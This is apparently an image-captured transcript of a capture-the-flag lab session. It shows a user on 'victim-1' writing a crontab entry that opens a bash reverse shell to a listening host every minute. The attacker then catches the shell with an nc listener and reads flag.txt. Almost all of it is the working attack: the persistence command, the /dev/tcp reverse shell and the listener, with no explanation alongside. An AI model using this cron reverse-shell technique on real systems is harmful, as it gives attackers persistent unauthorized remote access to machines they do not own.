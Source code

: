 ```
student@victim-1:~$ echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/192.243.230.2/1234 0>&1'" > cron
student@victim-1:~$ cat cron
* * * * * /bin/bash -c 'bash -i >& /dev/tcp/192.243.230.2/1234 0>&1'
student@victim-1:~$ crontab -i cron
student@victim-1:~$ crontab -l
* * * * * /bin/bash -c 'bash -i >& /dev/tcp/192.243.230.2/1234 0>&1'
```

```
student@victim-1:~$ ls
cron  wait
student@victim-1:~$ rm wait
student@victim-1:~$ Connection to 192.243.230.3 closed by remote host.
Connection to 192.243.230.3 closed.
root@attackdefense:~# ssh student@192.243.230.3
student@192.243.230.3's password: 
Permission denied, please try again.
student@192.243.230.3's password: 
Permission denied, please try again.
student@192.243.230.3's password: 
student@192.243.230.3: Permission denied (publickey,password).
```

```
root@attackdefense:~# nc -nvlp 1234
listening on [any] 1234 ...
connect to [192.243.230.2] from (UNKNOWN) [192.243.230.3] 45422
bash: cannot set terminal process group (330): Inappropriate ioctl for device
bash: no job control in this shell
student@victim-1:~$ ls -al
ls -al
total 28
drwxr-xr-x 1 student student 4096 Jul  8 02:36 .
drwxr-xr-x 1 root    root    4096 Apr 26  2019 ..
drwx------ 2 student student 4096 Jul  8 02:21 .cache
-rw-rw-r-- 1 student student   69 Jul  8 02:28 cron
-rw-r--r-- 1 root    root      34 Apr 26  2019 flag.txt
student@victim-1:~$ cat flag.txt
cat flag.txt
79969e32981f722464fde4ce7f208883
student@victim-1:~$ whoami
whoami
student
student@victim-1:~$ id
id
uid=999(student) gid=999(student) groups=999(student)
```